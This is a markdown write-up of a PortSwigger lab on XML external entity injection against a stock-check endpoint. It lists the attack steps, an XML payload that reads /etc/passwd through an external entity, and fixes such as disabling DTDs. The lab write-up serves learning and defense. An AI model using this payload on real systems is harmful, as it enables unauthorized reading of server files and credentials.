


# 🕸️ Exploiting XXE using external entities to retrieve files

> 🔐 Attack Type: File reading with XXE

**Platform:** PortSwigger  
**Category:** XML External Entity (XXE)
**Severity:** High

## 🧾 Summary

Exfiltrated sensitive system files by injecting a malicious external entity into an XML-based stock check functional requirement.

## 🧨 Vulnerability

XXE in check stock function

- **Endpoint:** `POST /product/stock`
- **Cause:** The XML parser processes untrusted external entities within the DOCTYPE declaration.

## ⚡ Impact

Unauthorized access to local server files (e.g., `/etc/passwd`), potentially exposing credentials or configuration details.

## 🛠️ Exploit

- Intercepted the stock check request using Burp Suite.
- Injected a `DOCTYPE` definition containing a `SYSTEM` entity pointing to the target file.
- Replaced the `productId` value with the defined entity `&xxe;` to trigger the file read and display it in the response.

## 💥 Payload

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<stockCheck>
	<productId>&xxe;</productId>
	<storeId>1</storeId>
</stockCheck>

```

## 📸 Evidence

- **Vulnerable Endpoint:**



- **The Hack:**



## 🛡️ Fix

- **Disable DTDs:** Configure the XML parser to completely disable Document Type Definitions (DTDs) or at least disable external entity resolution.
- **Format Migration:** Use less complex data formats like **JSON** for data transfer to eliminate XML-specific attack vectors.